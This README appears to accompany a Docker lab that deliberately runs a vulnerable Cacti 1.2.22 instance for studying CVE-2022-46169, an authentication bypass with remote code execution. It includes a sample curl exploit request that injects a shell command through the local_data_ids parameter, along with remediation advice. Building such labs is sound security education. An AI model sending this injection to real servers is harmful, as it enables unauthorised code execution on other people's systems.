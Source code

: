 # CVE-2022-46169 Vulnerable Cacti Environment

This Docker setup creates a vulnerable Cacti instance (version 1.2.22) that is susceptible to the CVE-2022-46169 vulnerability, which allows for authentication bypass and remote code execution.

## Warning

**DO NOT USE THIS IN A PRODUCTION ENVIRONMENT OR ON A PUBLIC NETWORK!**

This environment is intentionally vulnerable and should only be used for security research, education, and testing in isolated environments.

## Setup

1. Build and start the containers:
   ```
   docker compose up -d
   ```

2. Access Cacti at `http://localhost:8080`
   - Username: admin
   - Password: admin

3. The system will automatically configure a default poller and host to facilitate exploitation.

## Testing the Vulnerability

The vulnerability exists in the `remote_agent.php` file, allowing unauthenticated attackers to execute commands by manipulating the `poller_id`, `host_id`, and `local_data_ids` parameters.

A sample exploit request might look like:

```
curl 'http://localhost:8080/remote_agent.php' \
  -d 'action=polldata' \
  -d 'poller_id=1' \
  -d 'host_id=1' \
  -d 'local_data_ids[]=1;id'
```

The above command should execute the `id` command on the server if the vulnerability is present.

## Remediation

In a real environment, you would:
1. Update Cacti to version 1.2.23 or newer
2. Restrict access to the Cacti web interface
3. Implement WAF rules to block malicious requests

## Cleanup

To remove all containers and data:
```
docker compose down -v
```